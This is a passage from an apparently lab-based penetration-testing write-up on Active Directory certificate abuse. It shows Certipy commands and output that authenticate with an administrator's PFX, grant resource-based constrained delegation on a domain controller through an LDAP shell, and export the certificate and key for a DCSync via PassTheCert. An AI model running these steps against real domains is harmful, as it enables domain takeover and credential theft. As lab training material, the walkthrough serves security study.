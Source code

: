 Now when we use the PFX, we will get the following error message:
```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -domain testcorp.local -username otheradmin
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: otheradmin@testcorp.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```
Interesting! However, we can still perform the RBCD attack if we specify the `-ldap-shell` parameter:

```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -domain testcorp.local -username otheradmin -ldap-shell
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://172.17.199.253:636'
[*] Authenticated to '172.17.199.253' as: u:TESTCORP\otheradmin
Type help for list of commands

# set_rbcd WIN-SUSL647VIKP$ INCENDIUMROCKS$
Found Target DN: CN=WIN-SUSL647VIKP,OU=Domain Controllers,DC=testcorp,DC=local
Target SID: S-1-5-21-320448686-1340094711-3770375256-1000

Found Grantee DN: CN=INCENDIUMROCKS,CN=Computers,DC=testcorp,DC=local
Grantee SID: S-1-5-21-320448686-1340094711-3770375256-1114
Currently allowed sids:
Delegation rights modified successfully!
INCENDIUMROCKS$ can now impersonate users on WIN-SUSL647VIKP$ via S4U2Proxy

# 
```
Other than that, we can also DCSync using the PFX. [This](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html?ref=7ms.us) and [this](https://arz101.medium.com/vulnlab-push-13d1e89878ae) post describe that it is still possible to export the certificate and the key from the PFX and to parse that to PassTheCert.py to grant a user DCsync rights.

We first export the certifcate and key:
```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx otheradmin.pfx -nocert -out otheradmin.key   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'otheradmin.key'
                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx otheradmin.pfx -nokey -out otheradmin.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'otheradmin.crt'
```
